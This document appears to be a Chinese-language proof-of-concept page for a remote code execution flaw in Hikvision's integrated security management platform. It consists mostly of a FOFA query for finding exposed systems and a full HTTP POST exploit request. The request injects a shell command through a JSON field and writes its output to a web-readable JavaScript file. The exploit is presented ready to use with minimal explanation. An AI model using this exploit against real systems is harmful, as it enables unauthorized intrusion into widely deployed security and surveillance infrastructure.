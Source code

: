 ## 海康威视综合安防系统detection接口存在RCE漏洞

## fofa

```
app="HIKVISION-综合安防管理平台" ||app="HIKVISION-iSecure-Center"
```

## poc

```
POST /center/api/installation/detection;.js HTTP/1.1
Host: xx.xx.xx.xx
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="105", "Not)A;Brand";v="8", "Chromium";v="105"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 154

{"type":"environment",
"operate":"",
"machines":{"id":"$(find /|grep chunk-common.34c924fe.js|while read f;do sh -c id >$(dirname $f)/123.js;done)"}}
```

写入文件路径
`http://xx.xx.xx.xx/portal/ui/static/js/123.js`

<img width="1302" alt="image-20240307102647932" src="../../images/476f1181-d7e0-4485-862c-856a64317681.png">
